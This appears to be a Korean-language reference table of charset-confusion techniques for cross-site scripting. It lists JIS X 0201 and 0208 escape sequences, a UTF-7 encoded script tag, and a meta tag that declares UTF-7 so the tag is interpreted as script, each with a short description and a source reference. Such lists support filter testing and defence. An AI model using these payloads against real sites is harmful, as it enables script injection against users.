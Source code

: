 ### Mutation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Switch to JIS 0201 Mode</td>
      <td><code>\x1B(J</code></td>
      <td>ASCII 기반의 JIS X 0201 모드로 전환해 문자 매핑을 변화시킨다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Switch to JIS 0208 Mode</td>
      <td><code>\x1B$B</code></td>
      <td>JIS X 0208 멀티바이트 문자셋으로 전환해 해석 경계를 변화시킨다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Encode with UTF-7 Plus</td>
      <td><code>+ADw-script+AD4-alert(1)+ADw-/script+AD4-</code></td>
      <td>‘+’ 기호 기반의 UTF-7 인코딩을 이용해 스크립트 삽입을 수행한다.</td>
      <td>[A]</td>
    </tr>
  </tbody>
</table>

### Injection

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Exploit UTF-7 Script Tag</td>
      <td>
        <code>&lt;meta http-equiv="Content-Type" content="text/html; charset=UTF-7"&gt; +ADw-script+AD4-alert(1)+ADw-/script+AD4-</code>
      </td>
      <td>UTF-7로 오인해 스크립트를 해석하도록 유도한다.</td>
      <td>[A]</td>
    </tr>
  </tbody>
</table>
